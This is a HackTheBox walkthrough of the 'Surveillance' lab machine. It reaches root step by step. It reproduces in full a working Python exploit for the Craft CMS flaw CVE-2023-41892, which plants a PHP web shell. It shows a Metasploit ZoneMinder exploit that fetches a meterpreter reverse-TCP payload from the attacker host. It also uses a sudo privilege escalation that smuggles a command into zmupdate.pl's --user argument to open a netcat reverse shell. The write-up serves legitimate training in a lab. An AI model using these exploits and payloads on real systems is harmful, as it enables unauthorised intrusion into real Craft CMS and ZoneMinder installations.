

# 🚩 Surveillance HackTheBox Walkthrough

<figure><figcaption></figcaption></figure>

Add the given Machine IP to Host file.

```
sudo nano /etc/hosts
```

Now you will be able to Open Webpage in Web Browser.

#### NMAP

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.245 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 00:21 IST
Nmap scan report for surveillance.htb (10.10.11.245)
Host is up (0.19s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp    open     http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title:  Surveillance 
1234/tcp  open     http       SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
5500/tcp  filtered hotline
10001/tcp filtered scp-config
14442/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.90 seconds
```

#### INDEX PAGE

<figure><figcaption><p>http://surveillance.htb/</p></figcaption></figure>

After doing **DIRSEARCH** we find another web directory http://surveillance.htb/admin/login

<figure><figcaption><p>http://surveillance.htb/admin/login</p></figcaption></figure>

#### GETTING SHELL  ACCESS

POC

````
This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).

## Overview

CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

## POC

This POC is depending on writing webshell, so finding a suitable folder with writable permission is necessary.

```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php" />
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```

Environment's from [ACTF 2023](https://adworld.xctf.org.cn/match/guide?event_hash=706a7a8c-65a0-11ee-ab28-000c29bc20bf)


Result


## Additional Resources

For more information and insights into this CVE, I would like to extend my thanks to Calif, who provided a reference to their blog post covering this topic:

- [Calif's Blog Post - Craft CMS Remote Code Execution](https://blog.calif.io/p/craftcms-rce)


## Disclaimer

This Gist is intended for educational purposes only and should not be used for any malicious activities. Always ensure you have the necessary permissions and follow ethical guidelines when testing or researching security vulnerabilities.

For any questions or clarifications, please feel free to reach out. Stay safe and secure!

````

save this python script with **.py** format and run the following line of codes.

```
┌──(Batman㉿GC)-[~/HackTheBox/Surveillance]
└─$ python3 script.py http://surveillance.htb/
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got the initial access to shell **www-data**

I explored and discovered a backup directory within the storage.

```
www-data@surveillance:~/html/craft/storage/backups$ ls
ls
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Now we will import **surveillance--2023-10-17-202801--v4.4.14.sql.zip** to our machine. When we unzip we found a user **Matthew** and with a hashed password.

```
Now we Login with user Matthew

ssh matthew@surveillance.htb
matthew@surveillance.htb's password:
```

Checking out the open ports on the machine reveals that the 8080 is rather special, let's check it out by forwarding the port locally via SSH

```
bash-5.1$ netstat -nltp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

ZoneMinder is a free, open source Closed-circuit television software application developed for Linux which supports IP and Analog cameras.

#### EXPLOIT

```
msf6 > search ZoneMinder

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/unix/webapp/zoneminder_lang_exec            2022-04-27       excellent  Yes    ZoneMinder Language Settings Remote Code Execution
   1  exploit/unix/webapp/zoneminder_snapshots            2023-02-24       excellent  Yes    ZoneMinder Snapshots Command Injection
   2  exploit/unix/webapp/zoneminder_packagecontrol_exec  2013-01-22       excellent  Yes    ZoneMinder Video Server packageControl Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/unix/webapp/zoneminder_packagecontrol_exec

msf6 > use 1
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/zoneminder_snapshots) > options

Module options (exploit/unix/webapp/zoneminder_snapshots):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /zm/             yes       The ZoneMinder path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      VLrHPQBcGC       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   nix Command


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST tun0
LHOST => 10.10.14.122
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 10.10.14.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.75087928999983 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:39031348c102bef16d453599d64c3e36881e53af,1702374789
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.10.11.245
[*] Meterpreter session 1 opened (10.10.14.122:4444 -> 10.10.11.245:34562) at 2023-12-12 17:53:15 +0800
[+] Payload sent

meterpreter > getuid
Server username: zoneminder

```

#### PRIVILEGE ESCALATION

```
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

We find Vulnerability in  /usr/bin/zmupdate.pl

Exploiting :- Run below command and corresponding netcat listener.

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/bash.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-1.dump. This may take several minutes.
```

```
┌──(Batman㉿GC)-[~/HackTheBox/Surveillance]
└─$ nc -lvnp 9005
listening on [any] 9005 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.245] 55656
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@surveillance:/usr/share/zoneminder/www# whoami
whoami
root
```

**We are ROOT!!!!!!**
